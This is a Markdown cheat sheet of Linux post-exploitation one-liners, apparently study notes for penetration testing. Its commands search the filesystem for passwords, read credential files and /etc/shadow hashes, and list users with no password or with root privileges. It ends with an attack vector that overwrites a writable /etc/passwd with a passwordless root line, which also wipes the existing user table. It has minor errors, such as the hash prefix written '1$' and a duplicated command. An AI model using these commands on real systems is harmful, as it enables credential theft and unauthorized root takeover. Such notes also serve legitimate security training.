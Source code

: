 # User and Password One-Liners

## Files With "passw" String 
```
find / -type f -readable -size +0 2>/dev/null | grep -Hi passw 
grep -r -l -i -I passw /  
```

## Plaintext Usernames or Passwords? 
```
grep -i user [filename] 
grep -i pass [filename] 
grep -C 5 "password" [filename] 
```
- For Joomla
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" 
```

## Files Generally With Plaintext / Easily-Reversible Passwords
```
less /var/apache2/* 
cat /root/anaconda-ks.cfg 
strings /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg 
```
## Users With No Password Set 
```
cut -f1-2 -d':' /etc/passwd | grep -v ':x$' 
```

## Super Users 
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' 
awk -F: '($3 == "0") {print}' /etc/passwd
```

# User and Password Hashes

## Background
- /etc/passwd contains users of the machine. If we filter for just the users that have /bin/bash or /bin/sh as their default program upon login, then we can get a list of interactive machine users.
```
Cat /etc/passwd | grep /bin/bash 
Cat /etc/passwd | grep /bin/sh 
grep -vE "nologin" /etc/passwd 
```
- /etc/shadow has the password hashes and is only readable by root unless it's misconfigured to allow other users to read it.
### Hash Syntax 
  - First 3 chatcyers identify the algorithm used.  
  ```
  1$	      MD5 
  $2a$	    Blowfish 
  $2y$	    Blowfish 
  $5$	      SHA-256 
  $6$	      SHA-512 
  ```
  - The next characters are the salt which preceded the next $. 
  - The string after the middle $ is the password hash value.

## Attack Vector
1. Try easy passwords for trying to su to other interactive users.  
2. Display the permissions of the shadow file to see if we or a non-root user can display the hash contents.  Then crack the hash. 
3. Display the permissions of the /etc/ passwd file. If it is writable by the current user then you can overwrite the file to add a new root user without a password required.  
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd 
```
  - Usually there's an X after the username to signify a password is required. When it is omitted (like this example), you can su to root without a password.
